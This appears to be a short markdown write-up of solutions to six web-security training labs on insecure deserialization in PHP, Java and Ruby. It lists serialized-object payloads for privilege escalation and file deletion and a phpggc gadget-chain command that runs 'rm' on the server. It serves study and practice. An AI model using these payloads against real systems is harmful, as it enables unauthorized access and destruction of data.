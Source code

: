 
## Labs
### 1. Modifying serialized data types
```
1. Change username to administrator (13 symbols)
2. Change parameter access_token from s to i as follows:
O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
```

### 2. Using application functionality to exploit insecure deserialization
```
1. Delete additional user.
2. For the POST /my-account/delete request change deserialized session cookie to:
s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
3. Send it.
```

### 3. Arbitrary object injection in PHP
```
1. Check for /libs/CustomTemplate.php~
2. Find out destruct() method
3. Create next payload:
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

### 4. Exploiting Java deserialization with Apache Commons
```
1. Use burp scanner to identify that the serialized object is Java Commons
2. Use ysoserial to create new payload
3. Base64 + URL encode it
```

### 5. Exploiting PHP deserialization with a pre-built gadget chain
```
1. Find out php.info
2. Find out Symfony ver and Secret Key
3. Create next payload:
phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0
4. Sign it with Secret Key using PHP code
```

### 6. Exploiting Ruby deserialization using a documented gadget chain
```
1. Use burp scanner to identify that the serialized object is Ruby using Marshal
2. Use the next code to create own object: 
https://devcraft.io/2021/01/07/universal-deserialisation-gadget-for-ruby-2-x-3-x.html 
```
